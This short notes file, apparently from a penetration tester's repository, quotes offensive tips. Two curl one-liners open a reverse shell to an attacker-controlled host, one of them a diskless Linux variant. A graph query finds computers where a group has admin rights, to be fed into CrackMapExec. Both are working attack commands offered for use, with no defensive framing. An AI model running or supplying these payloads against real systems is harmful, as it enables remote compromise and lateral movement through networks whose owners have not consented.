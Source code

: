 # notes

@joevennix writes:

````
reverse curl is a solid payload:

P=$(mktemp -u);mkfifo $P;curl -sNkT . https://$LHOST:$LPORT<$P|sh>$P

(diskless on linux):
  
{ curl -sNkT . https://$LHOST:$LPORT </dev/fd/3| sh 3>&-;} 3>&1|:
````

@noopy writes:

````
["Computers you have admin on","HTML","pwn.html","MATCH (m:Group {name: 'GROUP@EXAMPLE.COM'})-[r:AdminTo]->(n:Computer) RETURN http://n.name"]
Copy+paste -> CrackMapExec
````
